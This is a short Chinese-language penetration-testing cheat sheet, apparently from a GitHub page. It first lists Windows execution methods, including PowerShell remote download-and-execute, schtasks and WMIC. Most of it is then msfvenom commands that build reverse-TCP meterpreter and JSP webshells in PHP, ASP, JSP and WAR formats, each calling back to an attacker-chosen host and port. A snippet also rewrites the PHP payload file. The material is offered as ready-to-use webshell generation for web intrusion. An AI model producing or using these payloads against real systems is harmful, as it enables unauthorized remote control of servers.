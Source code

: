 ![](img/1.png)

在这里既然使用到了`在Windows下执行应用程序`，我们就大概盘点一下在Windows执行应用程序的几种方式：
```
双击运行
cmd下运行exe
利用Powershell远程下载执行
利用at或schtasks设置计划任务执行
利用wmic远程命令执行
其他的方式请各位补充
```
# 生成webshell脚本

在做web渗透的时候，经常会用到webshell，我们经常用的一句话用菜刀连接，如何使用MSFVenom生成`一个可以用msf操作的webshell呢？`

### PHP

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
```
### 或者
```
cat shell.php | pbcopy && echo '<?php ' | tr -d 'n' > shell.php && pbpaste >> shell.php
```
### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
```

### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
```

### WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
```

